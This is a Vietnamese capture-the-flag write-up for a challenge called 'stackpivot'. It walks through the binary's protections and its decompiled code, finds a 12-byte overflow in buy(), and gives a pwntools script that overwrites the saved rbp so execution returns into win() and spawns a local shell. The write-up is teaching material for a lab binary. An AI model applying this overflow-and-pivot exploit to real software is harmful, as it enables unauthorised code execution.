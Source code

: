 # *Challenge: stackpivot*
***

- **Stack pivot** là kỹ thuật thay đổi giá trị của thanh ghi rsp/rbp (trên hệ thống x86_64) để nó trỏ đến một vùng nhớ khác, thường là vùng bạn có thể điều khiển nội dung. Mục tiêu: Sau khi pivot, bạn dùng các ROP gadget ở vùng nhớ mới để điều khiển luồng thực thi.
**- Các chế độ bảo vệ ảnh hưởng đến stackpivot:**
 ```
 | **Cơ chế bảo vệ** | **Bật có ảnh hưởng đến stack pivot không?** | **Ghi chú**                                                |
| ----------------- | ------------------------------------------- | ---------------------------------------------------------- |
| Canary            | ✅ Có ảnh hưởng                              | Không ghi đè được return address nếu chưa bypass canary    |
| NX (No-eXecute)   | ❌ Không ảnh hưởng trực tiếp                 | Stack pivot dùng ROP, không cần thực thi shellcode         |
| ASLR              | ✅ Có ảnh hưởng                              | Phải biết địa chỉ `.bss`, ROP chain,… để pivot đúng        |
| PIE               | ✅ Có ảnh hưởng                              | `.text`, `.bss`, `.data` bị random hóa → cần leak base ELF |
| RELRO             | ❌ Không ảnh hưởng                           | Chỉ ảnh hưởng đến việc ghi vào GOT, không liên quan stack  |

 ```
*- Với file chall:*
 ```sh
 pwndbg> checksec
File:     /mnt/d/Documents/ISP/TASK1/5_stack_pivot/stackpivot
Arch:     amd64
RELRO:      Full RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
pwndbg>
```
- No canary ->  có thể buffer overflow ghi dè đc rip
- NX -> ko thực thi đc shellcode trên stack nhưng không ảnh hưởng đến stackpivot
- No PIE -> địa chỉ tĩnh ko cần leak base
**Xem pseudo code ở IDA xem, chương trình hoạt động ntn:**
- Chương trình gồm 4 hàm chính: main(), buy(), sell(), win().
Mô tả chương trình hoạt động: chương sẽ cho nhập vô hạn 3 lựa chọn. nếu ta nhập 1 thực hiện hàm buy, trong hàm buy cũng có 3 lựa chọn 1 2 3, cho nhập 1 chuỗi 28 kí tự rồi kết thúc hàm. Ta nhập 2 sẽ thực hiện hàm sell() in ra 1 chuỗi “I have nothing to sell” rồi kết thúc hàm. Nếu ta chọn 3 thì kết thúc hàm main.
```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char buf[2]; // [rsp+Eh] [rbp-2h] BYREF

  ((void (__fastcall *)(int, const char **, const char **))init)(argc, argv, envp);
  qword_404850 = (__int64)win;
  puts("Welcome human!");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("1. Buy");
        puts("2. Sell");
        puts("3. Exit");
        printf("> ");
        read(0, buf, 2uLL);
        if ( buf[0] != '1' )
          break;
        buy();
      }
      if ( buf[0] != '2' )
        break;
      sell();
    }
    if ( buf[0] == '3' )
      break;
    puts("Invalid choice!");
  }
  puts("Thanks for coming!");
  return 0;
}
```
```c
__int64 buy()
{
  __int64 result; // rax
  char buf[28]; // [rsp+0h] [rbp-20h] BYREF
  int v2; // [rsp+1Ch] [rbp-4h]

  v2 = 0;
  puts("1. Apple");
  puts("2. Banana");
  puts("3. Cambridge IELTS Volumn 4");
  printf("> ");
  v2 = read(0, buf, 40uLL);
  result = (unsigned __int8)buf[v2 - 1];
  if ( (_BYTE)result == '\n' )
  {
    result = v2 - 1;
    buf[result] = '\0';
  }
  return result;
}
```
```c
int sell()
{
  return puts("I have nothing to sell");
}
```
```c
int win()
{
  return system("/bin/sh");
}
```
**-Mục tiêu: ta phải chiếm được hàm win()**
* Nhận diện stackpivot:
- Nhận thấy trong hàm buy() chuỗi buf khai báo 28 kí tử mà cho nhập 40 kí tự -> lỗi buffer overflow 
- Thử nhập tối đa 40 byte rác vào buf thử xem có bị overwrite cái nào ko
```sh
 RBP  0x7fffffffdd50 ◂— 0x6161616161616165 ('eaaaaaaa')
 RSP  0x7fffffffdd30 ◂— 'aaaaaaaabaaaaaaacaaaaaaadaaa('
*RIP  0x40125e (buy+97) ◂— mov eax, dword ptr [rbp - 4]
```
-> Ta thấy rbp bị thay đổi còn rip thì không
- Do rbp không phải 1 địa chỉ hợp lệ vì khi lấy biến ra để để ghi dữ liệu thì bị lỗi
- Vậy ta phải thay đổi rbp thành 1 giá trị hợp lệ thì ta sẽ dùng bất kì địa chỉ nào mà ta biết do No PIE nên các địa chỉ là tĩnh nên ta có thể thay thành các địa chỉ trong file binary.
##### **Viết script:**
- Đầu tiên ta sẽ tìm offset từ buf đến rbp bằng cyclic:
 ```sh
 pwndbg> cyclic -l eaaaaaaa
Finding cyclic pattern of 8 bytes: b'eaaaaaaa' (hex: 0x6561616161616161)
Found at offset 32
pwndbg>
```
- Sau đó ta sẽ tìm 1 địa chỉ trong file có quyền write. Ta thấy có địa chỉ 0x404000 có thể read và write đc nên ta dùng lệnh x/50xg 0x406000 để tìm 1 địa chỉ trống chưa có giá trị để write vào. 
 
-> Chọn bừa địa chỉ 0x404880 để debug xem như nào
- Ta có script:
 ```py
 p.sendline(b'1')
payload = b'a'*32 + p64(0x404850 - 8)

p.sendafter(b'> ',payload)
```
- Giờ thử debug động quan sát:
  
-> Khi vẫn còn ở trong hàm buy khi mình gửi liệu rồi thì cái rbp nó lại chính là địa chỉ rbp của hàm main -> tức là chương trình cho phép ta overwrite đc rbp của chính hàm main luôn
 
- khi read xong thì ta thấy địa chỉa rbp của hàm main bởi overwrite giống địa chỉ mà mình gửi trong payload

```c
qword_404850 = (__int64)win;
```
 Nhìn lại ở đầu hàm main trong ida ta thấy hàm win đc khai báo vào trong con trỏ qword_404850. Địa chỉ 0x404850 cũng là 1 địa chỉ của file binary luôn. Giờ ta sẽ đi kiểm tra
 ```sh
 pwndbg> x/50xg 0x404800
0x404800 <what_is_this+1952>:   0x0000000000000000      0x0000000000000000
0x404810 <what_is_this+1968>:   0x0000000000000000      0x0000000000000000
0x404820 <what_is_this+1984>:   0x0000000000000000      0x0000000000000000
0x404830 <what_is_this+2000>:   0x0000000000000000      0x0000000000000000
0x404840 <what_is_this+2016>:   0x0000000000000000      0x0000000000000000
0x404850 <what_is_this+2032>:   0x0000000000401366      0x0000000000000000
0x404860:       0x0000000000000000      0x0000000000000000
```
-> 0x404850 chính là địa chỉ của hàm win.
 -> Ý tưởng: mình sẽ tìm cách ret ở hàm main vào đúng địa chỉ của hàm win
- Ta sẽ thử p.sendline(b’3’) kết thúc chương trình rồi đặt breakpoint ở đúng return xem chương trình hoạt động như nào
 
-> ta thấy địa chỉ tại rsp đã bị đẩy lên 8 byte (0x404880 -> 0x404888) và do ở xunh quanh địa chỉ 0x404880 ko có dữ liệu gì hết nên chương trình sẽ exit mà ko thực hiện gì
-> nên giờ ta sẽ lấy cái địa chỉ hàm win ta tìm đc kia sau đó trừ đi 8 byte để sau khi chạy qua leave đến ret thì ta sẽ ret hàm đúng địa chỉ của hàm win, nên ta có script cuối cùng
 ```py
 p.sendline(b'1')
payload = b'a'*32 + p64(0x404850 - 8)

p.sendafter(b'> ',payload)
p.sendafter(b'> ', b'3')
```
*Giải thích : trước khi thực hiện lệnh ret ta thực hiện lệnh leave.
Ta có leave = mov rsp, rbp ; pop rbp 
- Do pop rbp lấy 8 byte từ rsp, gán cho rbp và sau đó rsp += 8, nên tổng cộng hàm leave mất 8 byte dữ liệu trên stack. Do đó khi ta overwrite đc rbp của main thì ta sẽ pass địa chỉ chỉ của hàm win – đi 8 byte để sau khi thực hiện lệnh ret vào đúng hàm win.
- Check thử bằng debug động
 -> Chính xác
- Giờ gửi script xem chiếm đc shell trên LOCAL chưa:
 ```sh
 $ python3 solve.py
[+] Starting local process '/mnt/d/Documents/ISP/TASK1/5_stack_pivot/stackpivot': pid 585
[*] Switching to interactive mode
1. Buy
2. Sell
3. Exit
> Thanks for coming!
$
$ whoami
d1nhdwc
$ ls
'~$eport5.docx'   report5.md   stackpivot
 report5.docx     solve.py     stackpivot.i64
$
```
-> Đã chiếm đc shell


